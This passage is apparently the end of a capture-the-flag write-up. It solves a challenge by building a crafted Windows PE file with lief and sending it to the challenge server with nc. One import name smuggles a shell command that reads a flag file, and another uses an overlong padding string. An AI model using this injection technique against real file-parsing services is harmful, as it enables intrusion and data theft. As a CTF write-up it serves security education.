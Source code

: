 The following script will create a PE file using `lief` that exploits the vulnerability and prints the base64-encoded version of the PE file:

```python
from base64 import b64encode
from lief import PE

binary = PE.Binary(PE.PE_TYPE.PE32_PLUS)

section_text = PE.Section(".text")
section_text.content = []
section_text.virtual_address = 0x1000

binary.add_section(section_text)

test_lib = binary.add_library("a.")
test_lib.add_entry("a" * 206)
test_lib = binary.add_library("a.")
test_lib.add_entry(" '; cat /app/flag.txt > out;")

builder = PE.Builder(binary)
builder.build_imports(True)
builder.build()
# builder.write("file.exe")
print(b64encode(bytearray(builder.get_build())).decode())
```

Running the script and piping to the nc server `python3 solve.py | nc chals.tisc24.ctf.sg 53719` gives us the flag.

![](./assets/level-9-flag.png)

The flag is `TISC{pwn1n6_w17h_w1nd0w5_p3}`.
